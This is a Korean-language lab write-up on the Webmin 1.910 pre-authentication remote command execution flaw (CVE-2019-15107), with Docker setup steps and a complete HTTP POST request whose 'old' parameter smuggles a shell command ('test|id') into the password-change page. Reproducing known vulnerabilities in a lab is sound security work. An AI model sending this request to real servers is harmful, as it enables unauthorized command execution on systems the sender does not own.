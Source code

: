 # Webmin Pre-Auth 원격 코드 실행 취약점 (CVE-2019-15107)

> [류석준 (@seory0)](https://github.com/seory0)

<br>

### 요약
- Webmin은 유닉스 계열 시스템을 위한 웹 기반 시스템 구성 도구
- **비인증 사용자**가 **패스워드 재설정 페이지**를 통해 단순한 POST 요청만으로 임의 명령어를 실행 가능

<br>

### 참고 자료
- <https://github.com/vulhub/vulhub/tree/master/webmin/CVE-2019-15107>
- <https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html>
- <https://www.exploit-db.com/exploits/47230>
- <https://blog.firosolutions.com/exploits/webmin/>

<br>

### 환경 구성 및 실행
- 아래 명령어로 테스트 환경 실행
```bash
docker compose up -d
```
- `https://localhost:10000`에 접속하여 Webmin 로그인 페이지 확인(꼭 https로 접속할 것!)
- 다음과 같은 로그인 페이 확인 가능
![](/1.png)
- 다음과 같은 **POST 요청**을 보내면 `id` 명령어가 실행
```http
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```
<br>

### 결과

![](/2.png)

<br>

### 정리

Webmin 1.910 버전은 인증되지 않은 공격자가 임의로 코드를 실행할 수 있다. POST 요청에 조작된 `old` 파라미터를 삽입하여 시스템 명령어를 실행할 수 있다. 안전한 웹 서비스 운영을 위해 주기적인 웹 서비스 업데이트가 필요하다.
